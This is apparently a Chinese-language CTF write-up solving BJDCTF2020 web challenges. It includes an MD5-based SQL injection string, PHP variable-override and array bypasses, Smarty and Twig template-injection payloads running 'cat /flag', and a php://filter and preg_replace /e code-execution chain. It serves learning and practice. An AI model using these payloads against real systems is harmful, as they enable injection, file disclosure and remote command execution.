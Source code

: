 # Easy MD5

打开题目就一输入框把我整懵了，输入了没反应，然后目录扫描无果，查看网页源代码没发现敏感文件

然后在响应头发现

> Hint: select * from 'admin' where password=md5($pass,true)

输入`ffifdyop`

这样拼接以后就是`"select * from 'admin' where password='' or'6蒥欓!r,b' "`

or后面的句子第一个字母是非0打头的数字符，比如为 ‘ 1abc ’ 或者 ‘ -1bde ’都会被认为是true

之后进入下一个页面，查看网页源代码得到关键代码，直接数组绕过

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

```
http://ec1c5bb6-221c-4577-8d10-0bc84cb670d0.node3.buuoj.cn/levels91.php?a[]=1&b[]=2
```

之后post

```
param1[]=1&param2[]=2
```

## [BJDCTF2020]Mark loves cat

首先查看网页源代码在网页最下方发现了dog，尝试以get请求拼接，无果，额只能目录扫描看看有啥可利用的了

发现.git源码泄露，使用GitHack获取关键源码

```
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';
//变量覆盖
foreach($_POST as $x => $y){
    $$x = $y;
}
//变量覆盖
foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){ //如果GET传入的参数当中没有flag则进入循环
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

payload1：

```
flag2=11&yds=flag
```

payload2：和上面是等价的

```
yds=flag
```

在页面最下方获取到flag



# [BJDCTF2020]The mystery of ip

一开始没有任何思路，但是在ip那里通过修改`X-Forwarded-For`请求头实现了任意ip，加了单引号等不报错，尝试SSTI

`{{6*6}}`成功输出36，`{{1.__class__}}`看见报错`Smarty Compiler: Syntax error in template`

知道了是Smarty模板，发送下面的请求包获取flag

```
GET /flag.php HTTP/1.1
Host: node3.buuoj.cn:29070
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://node3.buuoj.cn:29070/hint.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
x-forwarded-for:{system('cat /flag')}
Cookie: UM_distinctid=176eeefef524b1-06a7c2cac68426-3323765-144000-176eeefef5397e
Connection: close
```

# [BJDCTF2020]ZJCTF，不过如此

代码审计，从$text所指向的文件中读取字符串如果等于`I have a dream`则进入if语句，并且file参数当中不能包含flag，那么猜测flag就在flag.php了

```
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

第一处采用data伪协议绕过

```
data://text/palin,I have a dream
也可以间写为
data:text/palin,I have a dream
当然也可以用base64编码绕过一些其他题目
data://text/palin;base64,SSBoYXZlIGEgZHJlYW0=
```

之后根据hint，发现没有内容

```
http://url/?text=data://text/palin,I have a dream&file=next.php
```

hh，也是伪协议就行

```
http://url/?text=data://text/palin,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

将获取到的内容base64解码，一看就知道是`preg_match`在`/e`模式下的任意代码执行

```
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

官方payload`/?.*={${phpinfo()}}`
即

```
<?php
preg_replace('/(.*)/ei','strtolower("\\1")','{${phpinfo()}}');
```

但这里存在的问题是，GET方式传的字符串，`.`会被替换成`_`，这里采用`\S`匹配`非空白符`

最终payload

```
http://e49c97cc-c1be-4f59-a134-899ba54d7def.node3.buuoj.cn/next.php?\S*=${getFlag()}&cmd=system('cat /flag');
```

# [BJDCTF2020]Cookie is so stable

看标题就知道肯定要控制Cookie参数了，点进去发现和上面那道题一样，这里发现是SSTI

```
GET /flag.php HTTP/1.1
Host: 158d1f46-6c3f-41db-9658-2b7f600cc4ca.node3.buuoj.cn
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://158d1f46-6c3f-41db-9658-2b7f600cc4ca.node3.buuoj.cn/flag.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176eeefef524b1-06a7c2cac68426-3323765-144000-176eeefef5397e; PHPSESSID=3ee60c2faab39922d3ff170675090221; user={{6*6}}
Connection: close
```

测试`{{7*'7'}}`输出了49，发现是Twig模板注入，如果结果为7777777则为jinja

尝试很多payload以后发现下面这个可以

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

因此取得flag也很简单了

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```



# 仓库地址

https://github.com/BjdsecCA/BJDCTF2020仓库地址，有空复现以下题目